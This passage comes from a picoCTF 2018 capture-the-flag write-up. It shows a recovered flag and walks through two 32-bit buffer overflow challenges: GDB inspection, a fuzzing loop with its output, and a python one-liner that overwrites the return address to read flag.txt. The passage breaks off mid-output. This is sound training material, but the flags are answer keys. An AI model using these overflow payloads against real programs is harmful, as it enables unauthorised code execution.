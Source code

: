 We can see our flag right there our flag ``` picoCTF{client_is_bad_debbd} ```

# binary exploitation buffer overflow 0 - Points: 150 - (Solves: 65)

we first checked what kind of binary is.

![binary_bof_0](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_0_0.png)

once after we see it is an ELF 32 bits, then we ran GDB to see their functions, and binary security.

![binary_bof_0](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_0_1.png)

the binary display a ``` main , and vuln function ``` with their address , and we make our fuzzer to fuzz our binary as below

![binary_bof_0](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_0_3.png)

it show us , we see we got an overflow and their offset at 24 then we prepare our payload to read the flag.txt

``` ./vuln `python -c "print 'A'*24+'\x67\x86\x04\x08'*4"` ```

# buffer overflow 1 - Points: 200 - (Solves: 17)

we first checked what kind of binary is.

![binary_bof_1](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_1_0.png)

once after we see it is an ELF 32 bits, then we ran GDB to see their functions, and binary security.

![binary_bof_1](https://github.com/SkyBulk/picoCTF2018/blob/master/images/binary_bof_1_1.png)

the binary display a ``` main , and vuln function ``` with their address , and we make our fuzzer to fuzz our binary as below



```
m4st3rrulezs@m4st3rrulezs:~/Downloads$ for i in `seq 1 100`; do echo $i; python -c "print 'A'*$i+'\xcb\x85\x04\x08'*$i" | ./vuln; done
1
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
2
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
3
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
4
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
5
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
6
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
7
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
8